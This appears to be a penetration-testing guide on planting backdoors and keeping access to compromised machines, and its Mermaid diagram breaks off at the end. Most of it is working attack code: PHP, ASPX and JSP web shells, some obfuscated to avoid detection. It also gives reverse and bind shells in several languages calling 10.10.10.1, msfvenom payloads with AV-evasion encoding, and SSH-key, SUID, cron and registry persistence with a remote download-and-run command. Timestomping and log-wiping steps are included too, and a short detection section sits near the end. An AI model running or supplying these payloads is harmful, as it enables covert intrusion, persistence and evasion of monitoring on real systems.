

# Backdoor Implantation Techniques

> **Difficulty:** Intermediate–Advanced | **Category:** Penetration Testing | **Phase:** Post-Exploitation / Persistence

---

## 1. Introduction

A **backdoor** is a deliberately planted mechanism that provides persistent, covert access to a compromised system, bypassing normal authentication. Unlike initial access techniques (exploitation, phishing, credential stuffing), a backdoor assumes the attacker already has a foothold and wants to **guarantee re-entry** even if the original vulnerability is patched, credentials are rotated, or the primary session is lost.

### 1.1 Backdoor vs. Initial Access

| Concept | Initial Access | Backdoor |
|---|---|---|
| Goal | First foothold | Re-entry / persistence |
| Timing | Pre-exploitation | Post-exploitation |
| Dependency | Relies on unpatched vuln or stolen cred | Independent — survives patching |
| Stealth requirement | Medium | High |

### 1.2 Backdoor Taxonomy

- **Web Shells** — script files dropped on a web server; accessed over HTTP
- **Reverse Shells** — victim connects out to attacker's listener
- **Bind Shells** — victim listens; attacker connects in
- **Account-Based** — rogue local/domain accounts, SSH authorized keys
- **Binary-Based** — SUID copies, trojanized system binaries, cron jobs
- **Framework Implants** — Meterpreter, Cobalt Strike Beacon, Sliver, Havoc

### 1.3 OPSEC: Stealth vs. Reliability

> **Note:** Every backdoor is a tradeoff. A **loud but reliable** backdoor (e.g., netcat bind shell on port 4444) will likely be caught by a SOC within hours. A **stealthy but complex** backdoor (e.g., DNS C2 beacon with jitter) is harder to set up but far more survivable.

Key OPSEC principles:
- Use ports that blend in: **443, 80, 53, 8443**
- Encrypt all C2 traffic — plaintext shells are trivially detected by DPI
- Minimize on-disk artifacts — prefer memory-resident techniques
- Use legitimate binary names, paths, and timestamps
- Never reuse infrastructure between engagements
- **Clean up** all backdoors at the end of an authorized assessment

---

## 2. Web Shells

A **web shell** is a malicious script uploaded to a web server that provides command execution through HTTP requests. They are one of the most common persistence mechanisms because web servers are internet-facing and HTTP traffic typically isn't blocked by host firewalls.

### 2.1 PHP Web Shells

**Minimal one-liners** (small footprint, easy to hide):

```php
<?php system($_GET['cmd']); ?>
```

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

```php
<?php passthru($_GET['c']); ?>
```

```php
<?php echo `$_GET[c]`; ?>
```

**Feature-rich PHP web shell** (captures stdout and stderr):

```php
<?php
if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    $output = array();
    exec($cmd, $output);
    echo '<pre>' . htmlspecialchars(implode("\n", $output)) . '</pre>';
}
?>
```

**PHP reverse shell** (Ivan Šincek style — stable):

```php
<?php
$ip   = '10.10.10.1';
$port = 4444;
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh', [0=>$sock, 1=>$sock, 2=>$sock], $pipes);
?>
```

> **Note:** PentestMonkey's `php-reverse-shell.php` remains the gold standard. Download from GitHub and edit `$ip` / `$port` before deploying.

### 2.2 ASPX Web Shell (Windows IIS)

```aspx
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script runat="server">
protected void Page_Load(object sender, EventArgs e) {
    if (Request["cmd"] != null) {
        Process p = new Process();
        p.StartInfo.FileName               = "cmd.exe";
        p.StartInfo.Arguments              = "/c " + Request["cmd"];
        p.StartInfo.RedirectStandardOutput = true;
        p.StartInfo.RedirectStandardError  = true;
        p.StartInfo.UseShellExecute        = false;
        p.StartInfo.CreateNoWindow         = true;
        p.Start();
        string output = p.StandardOutput.ReadToEnd()
                      + p.StandardError.ReadToEnd();
        Response.Write("<pre>" + Server.HtmlEncode(output) + "</pre>");
        p.WaitForExit();
    }
}
</script>
```

### 2.3 JSP Web Shell (Java Application Servers: Tomcat, JBoss, WebLogic)

```jsp
<%@ page import="java.io.*,java.util.*" %>
<%
String cmd = request.getParameter("cmd");
if (cmd != null) {
    Process p = Runtime.getRuntime().exec(
        new String[]{"/bin/sh", "-c", cmd}
    );
    InputStream is = p.getInputStream();
    InputStream es = p.getErrorStream();
    int i;
    out.print("<pre>");
    while ((i = is.read()) != -1) out.print((char)i);
    while ((i = es.read()) != -1) out.print((char)i);
    out.print("</pre>");
    p.waitFor();
}
%>
```

### 2.4 Web Shell Placement Locations

| Platform | Common Paths |
|---|---|
| Linux / Apache | `/var/www/html/`, `/var/www/html/images/`, `/var/www/html/uploads/` |
| Linux / Nginx | `/usr/share/nginx/html/`, application root |
| Windows / IIS | `C:\inetpub\wwwroot\`, `C:\inetpub\wwwroot\uploads\` |
| Tomcat | `/opt/tomcat/webapps/ROOT/`, `/var/lib/tomcat9/webapps/` |
| WordPress | `wp-content/uploads/`, `wp-content/themes/<theme>/` |
| Drupal | `sites/default/files/` |

**Convincing filenames:**
- `update.php`, `config.php`, `info.php`
- `status.aspx`, `health.aspx`, `default2.aspx`
- `test.jsp`, `manager.jsp`
- `.htaccess` (PHP execution inside .htaccess):

```apacheconf
# .htaccess — tricks Apache into executing .jpg as PHP
AddType application/x-httpd-php .jpg
```

Then upload `logo.jpg` containing PHP code — it executes as PHP while appearing to be an image.

### 2.5 Web Shell Obfuscation

> **Warning:** AV/WAF solutions commonly detect `system()`, `shell_exec()`, and `passthru()` function names in PHP files. Obfuscation raises the bar but is not a silver bullet against modern EDR.

```php
<?php $f = base64_decode('c3lzdGVt'); $f($_GET['c']); ?>
```

```php
<?php
$a = str_rot13('flfgrz');         // system
$a($_POST['x']);
?>
```

```php
<?php eval(gzinflate(base64_decode('encoded_payload_here'))); ?>
```

```php
<?php
$x = implode('', array_map('chr', [115,121,115,116,101,109])); // system
$x($_REQUEST['c']);
?>
```

### 2.6 Invoking Web Shells

```bash
# Basic command execution
curl "http://target.com/update.php?cmd=id"

# Upload file through web shell (send file via POST)
curl -X POST "http://target.com/update.php" \
     --data-urlencode "cmd=wget http://10.10.10.1/linpeas.sh -O /tmp/lp.sh && bash /tmp/lp.sh"

# Using cookies to pass command (WAF bypass attempt)
curl -b "cmd=whoami" "http://target.com/update.php"
```

### 2.7 Feature-Complete Web Shells

| Shell | Language | Features |
|---|---|---|
| **p0wny-shell** | PHP | Terminal-like UI, auto-complete |
| **b374k** | PHP | File manager, DB client, network tools |
| **c99** | PHP | Full featured, very large — easily detected |
| **WSO (Web Shell by Orb)** | PHP | File manager, SQL, Symlink bypass |
| **Weevely** | PHP | Steganographic shell, HTTP-based C2 |
| **AntSword** | PHP/ASP/JSP | Graphical client, plugin ecosystem |

```bash
# Weevely — generates obfuscated PHP shell
weevely generate MyPassword /var/www/html/shell.php

# Connect to weevely shell
weevely http://target.com/shell.php MyPassword
```

---

## 3. Bind Shells

A **bind shell** opens a listening port on the victim machine. The attacker then connects to that port from their machine to receive a shell. This model is less favored because perimeter firewalls routinely block unexpected **inbound** connections to victims.

> **Warning:** Bind shells are easily caught by network monitoring and firewall rules. Use only when reverse shell egress is impossible.

### 3.1 Netcat Bind Shell

```bash
# --- VICTIM ---
nc -lvnp 4444 -e /bin/bash

# --- ATTACKER ---
nc <victim_ip> 4444
```

### 3.2 Ncat Bind Shell (with keep-alive)

```bash
# --- VICTIM ---
# --keep-open: re-accept connections after client disconnects
ncat -lvnp 4444 --keep-open -e /bin/bash
```

### 3.3 Socat Bind Shell (PTY — fully interactive)

```bash
# --- VICTIM ---
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash,pty,stderr,setsid,sigint,sane

# --- ATTACKER ---
socat FILE:`tty`,raw,echo=0 TCP:<victim_ip>:4444
```

### 3.4 Python Bind Shell

```python
#!/usr/bin/env python3
import socket, subprocess, threading

def handle(conn):
    while True:
        try:
            data = conn.recv(4096).decode('utf-8', errors='replace').strip()
            if not data:
                break
            result = subprocess.run(
                data, shell=True,
                capture_output=True, timeout=30
            )
            out = result.stdout + result.stderr
            conn.sendall(out or b'[no output]\n')
        except Exception:
            break
    conn.close()

srv = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
srv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
srv.bind(('0.0.0.0', 4444))
srv.listen(5)
while True:
    conn, _ = srv.accept()
    threading.Thread(target=handle, args=(conn,), daemon=True).start()
```

```bash
# Deploy and run on victim
python3 bind_shell.py &
```

### 3.5 Windows Bind Shell (PowerShell)

```powershell
$listener = [System.Net.Sockets.TcpListener]::new(
    [System.Net.IPAddress]::Any, 4444)
$listener.Start()
$client   = $listener.AcceptTcpClient()
$stream   = $client.GetStream()
$reader   = New-Object System.IO.StreamReader($stream)
$writer   = New-Object System.IO.StreamWriter($stream)
$writer.AutoFlush = $true
while ($true) {
    $cmd    = $reader.ReadLine()
    $output = (Invoke-Expression $cmd 2>&1 | Out-String)
    $writer.WriteLine($output)
}
```

---

## 4. Reverse Shells

A **reverse shell** has the victim initiate the connection to the attacker's listener. Since most firewalls allow **outbound** connections on ports 80/443, reverse shells are far more reliable than bind shells in real engagements.

### 4.1 Bash Reverse Shell

```bash
bash -i >& /dev/tcp/10.10.10.1/4444 0>&1
```

```bash
# Alternative: exec variant (slightly different syntax, same effect)
exec 5<>/dev/tcp/10.10.10.1/4444; cat <&5 | while read line; do $line 2>&5 >&5; done
```

```bash
# Through /dev/udp (UDP reverse shell)
bash -i >& /dev/udp/10.10.10.1/4444 0>&1
```

### 4.2 Python Reverse Shell

```python
# Python 3 — one-liner
python3 -c '
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.10.1",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
'
```

### 4.3 PowerShell Reverse Shell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -c "
  $client  = New-Object System.Net.Sockets.TCPClient('10.10.10.1',4444)
  $stream  = $client.GetStream()
  [byte[]]$bytes = 0..65535|%{0}
  while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0) {
      $data     = (New-Object Text.ASCIIEncoding).GetString($bytes,0,$i)
      $sendback = (iex $data 2>&1 | Out-String)
      $sendback2= $sendback + 'PS ' + (pwd).Path + '> '
      $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
      $stream.Write($sendbyte,0,$sendbyte.Length)
      $stream.Flush()
  }
  $client.Close()
"
```

### 4.4 Perl Reverse Shell

```perl
perl -e '
use Socket;
$i="10.10.10.1";$p=4444;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
connect(S,sockaddr_in($p,inet_aton($i)));
open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");
exec("/bin/bash -i");
'
```

### 4.5 Ruby Reverse Shell

```ruby
ruby -rsocket -e '
f=TCPSocket.open("10.10.10.1",4444)
[0,1,2].each{|fd| IO.for_fd(fd).reopen(f)}
exec "/bin/bash -i"
'
```

### 4.6 Netcat Reverse Shell

```bash
# With -e flag (traditional netcat, OpenBSD nc may lack -e)
nc -e /bin/bash 10.10.10.1 4444

# Without -e (pipe trick)
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.10.1 4444 > /tmp/f
```

### 4.7 msfvenom Payloads

```bash
# Linux ELF — stageless
msfvenom -p linux/x64/shell_reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f elf -o shell_linux

# Linux ELF — staged (requires multi/handler)
msfvenom -p linux/x64/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f elf -o meterpreter_linux

# Windows PE — stageless
msfvenom -p windows/x64/shell_reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -f exe -o shell_win.exe

# Windows PE — Meterpreter staged
msfvenom -p windows/x64/meterpreter/reverse_https \
    LHOST=10.10.10.1 LPORT=443 \
    -f exe -o meterpreter.exe

# PHP raw payload
msfvenom -p php/reverse_php \
    LHOST=10.10.10.1 LPORT=4444 \
    -f raw -o shell.php

# Python script
msfvenom -p cmd/unix/reverse_python \
    LHOST=10.10.10.1 LPORT=4444 \
    -f raw -o shell.py

# Android APK
msfvenom -p android/meterpreter/reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -o malicious.apk

# Apply encoder to evade basic AV
msfvenom -p windows/x64/shell_reverse_tcp \
    LHOST=10.10.10.1 LPORT=4444 \
    -e x64/xor_dynamic -i 5 \
    -f exe -o encoded_shell.exe
```

### 4.8 Setting Up Listeners

```bash
# Netcat listener (simple)
nc -lvnp 4444

# Metasploit multi/handler (handles staged payloads, Meterpreter)
msfconsole -q -x "
  use exploit/multi/handler;
  set PAYLOAD windows/x64/meterpreter/reverse_https;
  set LHOST 10.10.10.1;
  set LPORT 443;
  set ExitOnSession false;
  exploit -j -z
"

# Socat listener (upgrades to PTY automatically)
socat file:`tty`,raw,echo=0 tcp-listen:4444,reuseaddr
```

### 4.9 Upgrading a Dumb Shell to a Full TTY

```bash
# Step 1 — inside the dumb shell:
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Step 2 — background the shell:
# Ctrl+Z

# Step 3 — fix terminal settings on attacker:
stty raw -echo; fg

# Step 4 — set terminal size inside shell:
export TERM=xterm-256color
stty rows 40 columns 160
```

---

## 5. SSH Authorized Keys

**SSH key injection** is one of the most reliable Linux persistence mechanisms. It survives password resets, system patches, and even reboots. No listening process is needed; the backdoor only activates when the attacker connects.

### 5.1 Planting the Backdoor Key

```bash
# --- ATTACKER: generate dedicated keypair ---
ssh-keygen -t ed25519 -f ~/.ssh/backdoor_key -N "" -C "systemd-update"
# Public key is in ~/.ssh/backdoor_key.pub

# --- VICTIM: plant the public key ---
mkdir -p ~/.ssh
chmod 700 ~/.ssh
echo "ssh-ed25519 AAAA...attacker_pubkey... systemd-update" \
    >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

# Plant for root access
echo "ssh-ed25519 AAAA...attacker_pubkey... systemd-update" \
    >> /root/.ssh/authorized_keys
```

### 5.2 Re-entering via the Backdoor

```bash
# Connect using the backdoor key
ssh -i ~/.ssh/backdoor_key user@<target_ip>

# Connect as root
ssh -i ~/.ssh/backdoor_key root@<target_ip>

# Use a non-standard port (if sshd is on 2222)
ssh -i ~/.ssh/backdoor_key -p 2222 user@<target_ip>
```

### 5.3 Hiding the Key Entry

```bash
# Disguise the key comment to look like a legitimate system key
# Instead of: ssh-ed25519 AAAA... attacker@kali
# Use:         ssh-ed25519 AAAA... root@backup-server-01

# Alternatively, check both authorized_keys files
cat ~/.ssh/authorized_keys
cat ~/.ssh/authorized_keys2
```

> **Note:** Some systems restrict SSH key auth to specific users via `/etc/ssh/sshd_config`. Always confirm `AuthorizedKeysFile` setting and check `AllowUsers` / `DenyUsers` directives.

### 5.4 System-Wide SSH Backdoor (High-Privilege)

```bash
# If you have root: add key to all user accounts at once
for dir in /root /home/*; do
    mkdir -p "$dir/.ssh"
    chmod 700 "$dir/.ssh"
    echo "ssh-ed25519 AAAA...pubkey... backup-svc" \
        >> "$dir/.ssh/authorized_keys"
    chmod 600 "$dir/.ssh/authorized_keys"
done
```

---

## 6. SUID Backdoor (Bash / Shell Copy)

An **SUID binary** runs with the file owner's privileges regardless of who executes it. By copying `/bin/bash` (owned by root) and setting the SUID bit, an attacker creates an escalation backdoor that can be triggered by any user with filesystem access.

### 6.1 Creating the SUID Bash Copy

```bash
# Copy bash to a convincing location
cp /bin/bash /usr/local/bin/.sysupdate
chmod +s /usr/local/bin/.sysupdate
ls -la /usr/local/bin/.sysupdate
# -rwsr-sr-x 1 root root ... /usr/local/bin/.sysupdate

# Later (as any user), trigger privileged shell:
/usr/local/bin/.sysupdate -p
# -p = privileged mode: do not drop effective UID
whoami    # root
```

### 6.2 Alternative Hidden Paths

```bash
# Blend in with legitimate system locations
cp /bin/bash /usr/lib/x86_64-linux-gnu/.helper
chmod 4755 /usr/lib/x86_64-linux-gnu/.helper

cp /bin/bash /var/lib/dpkg/.update
chmod 4755 /var/lib/dpkg/.update

cp /bin/dash /tmp/.d
chmod +s /tmp/.d
/tmp/.d -p
```

### 6.3 Detecting SUID Binaries (Defender Perspective)

```bash
# Find all SUID binaries — run as root on the target for audit
find / -perm -4000 -type f 2>/dev/null | sort

# Compare against a known-good baseline
find / -perm -4000 -type f 2>/dev/null > /tmp/suid_now.txt
diff /tmp/suid_baseline.txt /tmp/suid_now.txt
```

---

## 7. Cron Job Persistence

Cron provides reliable, scheduled re-execution of backdoor code without requiring an active session.

```bash
# Add to current user's crontab
crontab -e
# Add line:
# */5 * * * * bash -i >& /dev/tcp/10.10.10.1/4444 0>&1

# Non-interactive crontab injection
(crontab -l 2>/dev/null; echo "*/5 * * * * bash -c 'bash -i >& /dev/tcp/10.10.10.1/4444 0>&1'") | crontab -

# System-wide cron (requires root) — place file in /etc/cron.d/
cat > /etc/cron.d/sysupdate << 'EOF'
*/10 * * * * root bash -c 'bash -i >& /dev/tcp/10.10.10.1/4444 0>&1'
EOF
chmod 644 /etc/cron.d/sysupdate

# Reboot persistence via @reboot
(crontab -l 2>/dev/null; echo "@reboot sleep 30 && bash -c 'bash -i >& /dev/tcp/10.10.10.1/4444 0>&1'") | crontab -
```

> **Note:** Cron logs to `/var/log/cron` or `/var/log/syslog` depending on the distro. Defenders with log monitoring will see cron execution entries. Consider using `anacron` or `/etc/cron.hourly/` drop-ins instead.

---

## 8. Netcat Loop Persistence

Simple loop scripts provide resilient reverse-shell persistence without any framework overhead.

```bash
# Loop listener on victim (bind shell that re-spawns)
while true; do nc -lvnp 4444 -e /bin/bash; done

# Loop reverse shell on victim (keep trying to call back)
while true; do
    bash -i >& /dev/tcp/10.10.10.1/4444 0>&1
    sleep 60
done

# Background and completely detach from terminal
nohup bash -c '
    while true; do
        bash -i >& /dev/tcp/10.10.10.1/4444 0>&1
        sleep 60
    done
' &>/dev/null &
disown $!
echo "PID: $!"
```

> **Warning:** Netcat is almost universally flagged by modern EDR. On production systems, prefer a compiled implant or a C2 framework payload.

---

## 9. Meterpreter Persistence

**Meterpreter** is an advanced, in-memory payload delivered via Metasploit Framework. It communicates over TLS-encrypted channels and supports dozens of post-exploitation modules.

### 9.1 Quick Persistence via `run persistence`

```bash
# After obtaining a Meterpreter session:
meterpreter > run persistence -h

# Plant a persistence agent
meterpreter > run persistence \
    -U \          # run when user logs in
    -X \          # run at system startup
    -i 60 \       # reconnect interval (seconds)
    -p 4444 \     # attacker port
    -r 10.10.10.1 # attacker IP
```

### 9.2 Post-Exploitation Modules (Preferred)

```bash
# Background the session first
meterpreter > background

# Windows: scheduled task persistence
msf6 > use post/windows/manage/persistence_exe
msf6 post(persistence_exe) > set SESSION 1
msf6 post(persistence_exe) > set STARTUP SCHEDULER
msf6 post(persistence_exe) > set PAYLOAD_FILE /tmp/meterpreter.exe
msf6 post(persistence_exe) > run

# Windows: registry run key persistence
msf6 > use exploit/windows/local/persistence
msf6 exploit(persistence) > set SESSION 1
msf6 exploit(persistence) > set STARTUP REGISTRY
msf6 exploit(persistence) > run

# Linux: cron-based persistence
msf6 > use post/linux/manage/cron_persistence
msf6 post(cron_persistence) > set SESSION 1
msf6 post(cron_persistence) > set USERNAME root
msf6 post(cron_persistence) > run

# Multi-platform: generic persistence
msf6 > use post/multi/manage/persistence_exe
msf6 post(persistence_exe) > set SESSION 1
msf6 post(persistence_exe) > run
```

### 9.3 Manually Configuring the Handler

```bash
msf6 > use exploit/multi/handler
msf6 exploit(handler) > set PAYLOAD windows/x64/meterpreter/reverse_https
msf6 exploit(handler) > set LHOST 10.10.10.1
msf6 exploit(handler) > set LPORT 443
msf6 exploit(handler) > set ExitOnSession false
msf6 exploit(handler) > set HandlerSSLCert /path/to/legit.pem
msf6 exploit(handler) > exploit -j -z
```

---

## 10. Windows Registry Persistence

The Windows registry offers multiple keys that automatically execute programs at startup or login, making it a classic persistence location.

```powershell
# HKCU Run key — current user, survives logon
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" `
    /v "WindowsDefenderUpdate" `
    /t REG_SZ `
    /d "C:\Users\Public\svchost.exe" `
    /f

# HKLM Run key — all users, requires admin
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" `
    /v "MicrosoftEdgeUpdate" `
    /t REG_SZ `
    /d "C:\Windows\Temp\updater.exe" `
    /f

# RunOnce — single execution (good for staged payloads)
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce" `
    /v "Setup" `
    /t REG_SZ `
    /d "powershell -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.1/stage2.ps1')" `
    /f
```

### 10.1 Scheduled Task Persistence (Windows)

```powershell
# Create scheduled task that runs at logon (current user)
schtasks /create /tn "MicrosoftWindowsUpdate" `
    /tr "C:\Users\Public\svchost.exe" `
    /sc onlogon /ru "" /f

# Run as SYSTEM every 15 minutes
schtasks /create /tn "WindowsTelemetry" `
    /tr "C:\Windows\Temp\beacon.exe" `
    /sc minute /mo 15 /ru SYSTEM /f

# PowerShell-based scheduled task (more control)
$action  = New-ScheduledTaskAction -Execute "powershell.exe" `
    -Argument "-NonI -W Hidden -ep Bypass -File C:\Users\Public\update.ps1"
$trigger = New-ScheduledTaskTrigger -AtLogOn
$settings= New-ScheduledTaskSettingsSet -Hidden
Register-ScheduledTask -TaskName "OneDriveStandaloneUpdater" `
    -Action $action -Trigger $trigger -Settings $settings
```

---

## 11. Cobalt Strike Beacon Concepts

> **Warning:** Cobalt Strike is a commercial tool licensed for authorized security assessments only. The following is provided for educational and defensive awareness purposes.

**Beacon** is Cobalt Strike's payload — a flexible implant that supports multiple communication protocols and extensive post-exploitation capabilities.

| Beacon Type | Protocol | Port | Notes |
|---|---|---|---|
| HTTP Beacon | HTTP | 80 | Malleable profile controls appearance |
| HTTPS Beacon | HTTPS | 443 | TLS certificate should match legitimate org |
| DNS Beacon | DNS A/TXT | 53 | Extremely stealthy; slow |
| SMB Beacon | Named Pipe | N/A | Lateral movement; no external network needed |
| TCP Beacon | Raw TCP | Any | Pivoting within network segments |

**Persistence methods available in Cobalt Strike:**
- Scheduled Task (`elevate` + `persist` commands)
- Windows Service (`psexec` with persistence)
- Registry Run Keys (via `reg` command)
- WMI Event Subscriptions (fileless)

**OPSEC settings to configure:**
- Sleep timer: `sleep 300 50` (sleep 5 min, 50% jitter) — avoids beaconing detection
- Use a custom **Malleable C2 profile** to mimic legitimate traffic (e.g., Amazon, jQuery)
- Set `amsi_disable` and `etw_disable` in aggressor scripts with care

---

## 12. Backdoor Hiding Techniques

### 12.1 Filesystem Stealth

```bash
# Prefix files with a dot (hidden by ls without -a)
cp /tmp/backdoor /usr/local/lib/.libssl-update.so

# Blend into standard directories
cp shell /usr/share/man/man1/.ssl_update
cp shell /usr/lib/python3/dist-packages/.pkg_update
cp shell /var/lib/apt/.update_helper

# Timestomping — copy legitimate binary's timestamps
touch -r /bin/bash /tmp/.evil_shell
touch -r /usr/bin/python3 /usr/local/lib/.libssl-update.so

# Using stat to verify
stat /tmp/.evil_shell
stat /bin/bash
```

### 12.2 Process Name Masquerading (Linux)

```bash
# Rename the shell binary before executing
cp /bin/bash /tmp/[kworker/u4:2]
/tmp/[kworker/u4:2] -p

# In Python — set process title
import ctypes
libc = ctypes.CDLL(None)
# Sets argv[0] visible in ps to something innocuous
```

### 12.3 Filenames That Blend In

| Platform | Convincing Fake Names |
|---|---|
| Linux | `libssl-update`, `systemd-resolved.bak`, `udev-helper`, `kworker` |
| Windows | `svchost.exe`, `MicrosoftEdgeUpdate.exe`, `OneDriveStandaloneUpdater.exe` |
| Web (PHP) | `update.php`, `config.cache.php`, `wp-cron-worker.php` |
| Web (ASPX) | `status.aspx`, `health.aspx`, `default_backup.aspx` |

### 12.4 Log Manipulation (Cover Tracks)

```bash
# Clear bash history in current session
history -c
unset HISTFILE

# Prepend space to commands to suppress history (if HISTCONTROL=ignorespace)
 nc -lvnp 4444 -e /bin/bash

# Truncate specific logs
> /var/log/auth.log
> /var/log/secure

# Remove specific lines from auth.log (requires careful regex)
sed -i '/10\.10\.10\.1/d' /var/log/auth.log

# Suppress bash history for entire session
export HISTSIZE=0
export HISTFILESIZE=0
```

> **Warning:** Wiping logs wholesale is extremely loud and forensically obvious. Surgical removal of specific entries is preferable — but note that log integrity monitoring (e.g., auditd, SIEM ingestion) may have already shipped the logs off-host.

---

## 13. OPSEC Considerations

| Risk Factor | Description | Mitigation |
|---|---|---|
| **Port choice** | Port 4444 is a well-known attacker port | Use 443, 80, 8443, 8080 |
| **Protocol** | Plaintext TCP detected by DPI/IDS | Encrypt with TLS, use HTTPS C2 |
| **Beaconing pattern** | Regular interval = automatic detection | Add jitter (20–50%) to sleep timers |
| **Binary signatures** | Common tools flagged by AV/EDR | Compile custom implants, use LOLBins |
| **Disk artifacts** | Files on disk are scanned | Memory-only payloads (reflective DLL) |
| **Infrastructure reuse** | Same C2 IP/domain across engagements | Rotate per-engagement; use CDN fronting |
| **Noisy logging** | Auth attempts fill auth.log | Use SSH key auth instead of passwords |
| **Web shell detection** | Web shells scanned by WAF/AV | Encode, obfuscate, blend with app files |

---

## 14. Detection Methods (Defender Perspective)

Understanding detection helps pentesters assess how long their backdoor will survive and report realistically to clients.

### 14.1 Network-Based Detection

```bash
# Look for regular outbound connections (beaconing)
# Zeek/Bro: conn.log analysis
cat conn.log | awk '{print $5, $9}' | sort | uniq -c | sort -rn | head -20

# Suricata rules for known shells
alert tcp any any -> any 4444 (msg:"Possible reverse shell - port 4444"; sid:9000001;)
alert tcp any any -> any any (content:"cmd="; http_uri; msg:"Web shell access"; sid:9000002;)
```

### 14.2 File System Detection

```bash
# Find recently modified files in web roots
find /var/www -mtime -1 -type f -name "*.php" 2>/dev/null

# Find SUID binaries not in baseline
find / -perm -4000 -type f 2>/dev/null

# Find hidden files/dirs in suspicious locations
find /tmp /var/tmp /dev/shm -name ".*" 2>/dev/null
find /usr/local /usr/share -name ".*" -type f 2>/dev/null

# Check SSH authorized_keys across all users
for u in $(cut -d: -f1 /etc/passwd); do
    h=$(getent passwd "$u" | cut -d: -f6)
    [ -f "$h/.ssh/authorized_keys" ] && echo "=== $u ===" && cat "$h/.ssh/authorized_keys"
done
```

### 14.3 Process and Network Detection

```bash
# Find processes with open network connections
ss -tnp
netstat -tnp

# Look for nc/ncat/python with network connections
lsof -i -n -P | grep -E "nc|ncat|python|perl|ruby|php"

# Check for processes running from /tmp or /dev/shm
ls -la /proc/*/exe 2>/dev/null | grep -E "tmp|shm|dev"
```

### 14.4 EDR/SIEM Telemetry Indicators

| Indicator | Detection Signal |
|---|---|
| `system()` / `shell_exec()` in web server process | Process creation from `apache2` / `nginx` / `w3wp.exe` |
| `/bin/bash` child of web process | Unusual parent-child relationship |
| `authorized_keys` modified | inotify / Falco rule on `~/.ssh/` writes |
| New SUID binary | `auditd` rule: `-a always,exit -F perm=s` |
| Cron job added | Auditd watch on `/var/spool/cron/`, `/etc/cron.d/` |
| Scheduled task created | Windows Event ID 4698 (task registered) |
| Registry Run key modified | Windows Event ID 13 (Sysmon registry value set) |
| Outbound connection on port 4444 | Network flow logs; firewall deny logs |

---

## 15. Mermaid: Backdoor Types Overview

```mermaid
graph TD
    A[Backdoor Implantation] --> B[Web-Based]
    A --> C[Shell-Based]
    A --> D[Account-Based]
    A --> E[Binary-Based]
    A --> F[Framework Implants]

    B --> B1[PHP Web Shell]
    B --> B2[ASPX Web Shell]
    B --> B3[JSP Web Shell]
    B1 --> B1a[One-liner: system&#40;&#41;]
    B1 --> B1b[Feature-rich: exec&#40;&#41;]
    B1 --> B1c[Obfuscated: base64/gzip]

    C --> C1[Reverse Shell]
    C --> C2[Bind Shell]
    C1 --> C1a[Bash /dev/tcp]
    C1 --> C1b[Python socket]
    C1 --> C1c[PowerShell TCP]
    C1 --> C1d[msfvenom ELF/EXE]
    C2 --> C2a[Netcat -lvnp]
    C2 --> C2b[Socat PTY]
    C2 --> C2c[Python socket.bind]

    D --> D1[SSH Authorized Keys]
    D --> D2[Local User Account]
    D --> D3[Domain Account]
    D1 --> D1a[ed25519 keypair]
    D1 --> D1b[RSA keypair]

    E --> E1[SUID Bash Copy]
